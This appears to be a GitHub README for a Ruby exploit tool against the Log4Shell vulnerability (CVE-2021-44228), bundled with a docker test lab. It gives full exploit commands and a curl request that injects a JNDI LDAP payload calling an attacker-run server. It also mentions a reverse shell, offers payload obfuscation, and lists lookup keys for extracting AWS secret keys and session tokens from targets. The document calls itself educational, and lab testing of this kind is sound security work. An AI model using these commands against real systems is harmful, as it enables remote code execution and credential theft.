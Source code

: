 ## Log4j RCE Vulnerability (CVE-2021-44228)
This is for educational purposes only. This contains docker files to create the testing environment for this exploit

### Building and running the testing environment
Start the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app) and test server
```
docker-compose up
```
### Exploitation
Open a new terminal and get an access to the test server
```
docker exec -it log4j_attacker bash
```
#### Full Exploitation
```
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name'
```
##### Example:
![Full Exploitation](./attachments/full_rce.gif)

#### Serve the payload
Start the HTTP and LDAP Servers
```
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name' -s
```

Open a new terminal in the test server
```
docker exec -it log4j_attacker bash
# inside the test server
curl http://10.10.10.2:8080 -H 'X-Api-Version: ${jndi:ldap://10.10.10.3:1389/${sys:os.name}}'
```
##### Example:
Reverse shell
![Serve only](./attachments/serve.gif)

Getting information from callback(Note: `-c 'touch /dev/shm/vulnerable' is not needed`):
![Info](./attachments/info.gif)

### Options
```
# ./log4j.rb --help
Usage: ./log4j.rb -t [Target] -a [Attacker IP] -l [LDAP Port] -h [HTTP Port]

Options:
    -t, --target Target              Target Host to check. Default: http://127.0.0.1:8080
    -a, --attacker Attacker          IP of LDAP and HTTP servers. Default: 0.0.0.0
    -l, --ldap LDAP_PORT             LDAP Port to use. Default: 53
    -h, --http HTTP_PORT             HTTP Port to use. Default: 1010
    -c, --command Command            Command to execute. Default: "touch /dev/shm/log4j_vulnerable"
    -s, --serve_only                 [OPTIONAL] Starts HTTP and LDAP Server, then send JNDI payload manually
    -i, --info_extract Info_key      [OPTIONAL] Extracts information from the target using log4j keywords. Default is none. Possible inputs but not limited to below:
                                        ${hostName}
                                        ${sys:user.name}
                                        ${sys:user.home}
                                        ${sys:user.dir}
                                        ${sys:java.home}
                                        ${sys:java.vendor}
                                        ${sys:java.version}
                                        ${sys:java.vendor.url}
                                        ${sys:java.vm.version}
                                        ${sys:java.vm.vendor}
                                        ${sys:java.vm.name}
                                        ${sys:os.name}
                                        ${sys:os.arch}
                                        ${sys:os.version}
                                        ${env:JAVA_VERSION}
                                        ${env:AWS_SECRET_ACCESS_KEY}
                                        ${env:AWS_SESSION_TOKEN}
                                        ${env:AWS_SHARED_CREDENTIALS_FILE}
                                        ${env:AWS_WEB_IDENTITY_TOKEN_FILE}
                                        ${env:AWS_PROFILE}
                                        ${env:AWS_CONFIG_FILE}
                                        ${env:AWS_ACCESS_KEY_ID}
    -o, --obfuscate                  [OPTIONAL] Obfuscates the JNDI Payload
        --help                       Print options

```
### Testing outside the container
- Make sure to do `bundle install` first to install the dependency gems

### Credits
- [christophetd](https://github.com/christophetd) for the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [alexandre-lavoie's](https://github.com/alexandre-lavoie) [code](https://github.com/alexandre-lavoie/python-log4rce) for my reference while working on this project

### Note
This is for educational purposes only. Please use responsibly if you want to test it.
